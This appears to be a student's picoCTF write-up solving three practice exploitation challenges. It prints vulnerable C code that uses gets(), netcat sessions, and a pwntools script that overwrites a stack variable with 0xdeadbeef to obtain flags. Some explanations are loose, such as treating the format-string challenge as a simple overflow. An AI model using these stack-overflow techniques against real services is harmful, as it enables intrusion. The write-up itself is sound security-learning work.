 # buffer overflow 0

Let's start off simple, can you overflow the correct buffer? The program is available [here](https://artifacts.picoctf.net/c/174/vuln). You can view source [here](https://artifacts.picoctf.net/c/174/vuln.c).Connect using:`nc saturn.picoctf.net 55418`

## Solution

In this challenge I read the source code and understood that the given code can only handle the input which is larger than 64 so I decided to just causes a buffer overflow error and did the following thing

```bash
nc saturn.picoctf.net 55418
Input: what are we doing irhgt now isncce iaophjsdfujasdcvasdjfasdf,.jxc jdcvxljsd flk;jasdf sadopfrujasdf
picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}
```

The output of the following was directly just the flag. 
## Flag

picoCTF{ov3rfl0ws_ar3nt_that_bad_c5ca6248}


# Format string 0

Can you use your knowledge of format strings to make the customers happy?Download the binary [here](https://artifacts.picoctf.net/c_mimas/79/format-string-0).Download the source [here](https://artifacts.picoctf.net/c_mimas/79/format-string-0.c).Connect with the challenge instance here:`nc mimas.picoctf.net 49786`

## Solution

After reading the source code of this challenge I understood that I just need to put an input larger than 100 which will cause an overflow error and after that it will just return the flag. 

```bash
nc mimas.picoctf.net 49786
Welcome to our newly-opened burger place Pico 'n Patty! Can you help the picky customers find their favorite burger?
Here comes the first customer Patrick who wants a giant bite.
Please choose from the following burgers: Breakf@st_Burger, Gr%114d_Cheese, Bac0n_D3luxe
Enter your recommendation: Breakf@st_Burger,Breakf@st_Burger,Breakf@st_Burger,Breakf@st_Burger,Breakf@st_Burger,Breakf@st_Burger,Breakf@st_Burger,Breakf@st_Burger,Breakf@st_Burger,
There is no such burger yet!

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}


```


## Flag

picoCTF{7h3_cu570m3r_15_n3v3r_SEGFAULT_a1d85b3e}

# clutter-overflow

Clutter, clutter everywhere and not a byte to use.`nc mars.picoctf.net 31890`

## Solution

We are given a chall.c and a ./chall file. 
The code of `chall.c` is 
```c
#include <stdio.h>
#include <stdlib.h>

#define SIZE 0x100
#define GOAL 0xdeadbeef

const char* HEADER = 
" ______________________________________________________________________\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |\n"
"|^ ^ ^ ^ ^ ^ |L L L L|^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ ==================^ ^ ^|\n"
"| ^ ^ ^ ^ ^ ^| L L L | ^ ^ ^ ^ ^ ^ ___ ^ ^ ^ ^ /                  \\^ ^ |\n"
"|^ ^_^ ^ ^ ^ =========^ ^ ^ ^ _ ^ /   \\ ^ _ ^ / |                | \\^ ^|\n"
"| ^/_\\^ ^ ^ /_________\\^ ^ ^ /_\\ | //  | /_\\ ^| |   ____  ____   | | ^ |\n"
"|^ =|= ^ =================^ ^=|=^|     |^=|=^ | |  {____}{____}  | |^ ^|\n"
"| ^ ^ ^ ^ |  =========  |^ ^ ^ ^ ^\\___/^ ^ ^ ^| |__%%%%%%%%%%%%__| | ^ |\n"
"|^ ^ ^ ^ ^| /     (   \\ | ^ ^ ^ ^ ^ ^ ^ ^ ^ ^ |/  %%%%%%%%%%%%%%  \\|^ ^|\n"
".-----. ^ ||     )     ||^ ^.-------.-------.^|  %%%%%%%%%%%%%%%%  | ^ |\n"
"|     |^ ^|| o  ) (  o || ^ |       |       | | /||||||||||||||||\\ |^ ^|\n"
"| ___ | ^ || |  ( )) | ||^ ^| ______|_______|^| |||||||||||||||lc| | ^ |\n"
"|'.____'_^||/!\\@@@@@/!\\|| _'______________.'|==                    =====\n"
"|\\|______|===============|________________|/|\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\" ||\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"||\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"  \n"
"\"\"''\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"''\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\n"
"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"\"";

int main(void)
{
  long code = 0;
  char clutter[SIZE];

  setbuf(stdout, NULL);
  setbuf(stdin, NULL);
  setbuf(stderr, NULL);
 	
  puts(HEADER); 
  puts("My room is so cluttered...");
  puts("What do you see?");

  gets(clutter);


  if (code == GOAL) {
    printf("code == 0x%llx: how did that happen??\n", GOAL);
    puts("take a flag for your troubles");
    system("cat flag.txt");
  } else {
    printf("code == 0x%llx\n", code);
    printf("code != 0x%llx :(\n", GOAL);
  }

  return 0;
}


```

From this we can see that the size is 0x100 or 256 if we consider integer values. 

So I basically decided to do the same nonsense I have been doing for the past few challenges and just basically just cause a overflow error in order to get a flag. But that didn't work here. 
```bash
My room is so cluttered...
What do you see?
qwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklzxcvbnmqwertyuiopasdfghjklzxcvbnm
code == 0x7361706f69757974
code != 0xdeadbeef :(
```

However if I give a normal input to the same program this is what I get.

```bash
My room is so cluttered...
What do you see?
hello
code == 0x0
code != 0xdeadbeef :(
```

From this I was able to notice that some of the input was overflowing into the variable code. Also I needed to set the value of `code` to 0xdeadbeef so to do this I needed to see where does this overflow start occuring. 

```python
from pwn import *

io = remote("mars.picoctf.net", 31890)
io.recvuntil("What do you see?\n")
string = b"f" * 256
io.sendline(string)
io.interactive()
```

This was the base code since the size of the string was 256 and I starting increasing one by one but I kept getting the same output of `code = 0x0` till I reached 264. After that the value started going over to the variable code. So I found the value of deadbeef in little edian format and just put in after 264. 

```python
from pwn import *

io = remote("mars.picoctf.net", 31890)
io.recvuntil("What do you see?\n")
string = b"f" * 264
string += b"\xef\xbe\xad\xde"
io.sendline(string)
io.interactive()
```

This is the output of the code
```
[*] Switching to interactive mode
code == 0xdeadbeef: how did that happen??
take a flag for your troubles
picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}
[*] Got EOF while reading in interactive
```

## Flag

picoCTF{c0ntr0ll3d_clutt3r_1n_my_buff3r}

## Resources

https://youtu.be/9wepzpQhhio


